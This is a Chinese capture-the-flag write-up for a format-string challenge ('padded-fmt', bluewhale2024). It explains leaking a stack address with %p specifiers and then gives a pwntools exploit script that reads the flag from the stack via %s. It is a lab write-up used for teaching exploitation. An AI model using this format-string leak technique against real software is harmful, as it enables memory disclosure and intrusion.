 ```yaml
---
title: bluewhale2024 - padded-fmt 
date: 2024/5/3 23:08:00
updated: 2024/7/25 12:34:56
tags:
    - fmt-string
excerpt: 利用格式化字符串漏洞泄露flag，通过推算栈地址并构造特定payload实现。
---
```


{% note %}
李华在学习了格式化字符串漏洞后大受震撼，但他突然想到“对啊，如果我给`%n$p`里的`$`过滤掉，
再配合上一个很大块的空数据让printf随便泄露，不就是个安全的printf了吗！”

于是李华写了下面的这个 demo，看看聪明的你能不能打他的脸
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序将flag读到了ctx（栈）上，虽然栈上没有触手可及的的栈地址，但是寄存器里有，
我们就可以推算出ctx的地址，接下来以这个地址用字符串的方式打印就可以获得flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fmt'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20603)
    elf = ELF(EXE)

    sh.sendlineafter(b'name?\n', b'%p,%p,%p,%p,%p,%p,%p')
    rsp = int(sh.recvuntil(b'have', True).decode().split(',')[6], 16)
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    flagAddr = rsp + 0x470
    
    sh.sendlineafter(b'say?\n', (b'%p,'*16 + b'%s').ljust(0x38, b'\0') + p64(flagAddr))
    flag = sh.recvuntil(b'}').decode().split(',')[-1]
    success(f'FLAG is: {flag}')
    sh.close()
```
